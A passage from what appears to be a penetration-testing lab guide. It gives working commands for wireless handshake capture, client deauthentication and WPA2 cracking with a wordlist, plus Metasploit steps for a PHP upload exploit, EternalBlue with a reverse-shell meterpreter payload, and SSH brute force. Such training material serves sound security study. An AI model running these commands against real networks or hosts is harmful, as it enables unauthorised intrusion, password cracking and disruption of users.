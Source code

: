 **Network Discovery:**
```bash
# Scan for wireless networks
sudo airodump-ng wlan0mon

# Target specific network
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

**WPA2 Cracking:**
```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

# Deauth clients to force handshake
sudo aireplay-ng -0 2 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack with wordlist
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

---

## 💥 Exploitation Phase

### 1. Metasploit Framework

**Environment Setup:**
```bash
# Start Metasploit
msfconsole

# Initialize workspace
workspace -a kawaiisec_lab
```

**Web Application Exploitation:**
```bash
# Search for web exploits
search type:exploit platform:php

# Example: PHP file upload vulnerability
use exploit/multi/php/upload_exec
set RHOSTS 192.168.1.10
set TARGETURI /vulnerabilities/upload/
exploit
```

**Network Service Exploitation:**
```bash
# SMB exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit

# SSH bruteforce
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.10
set USERNAME admin
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```
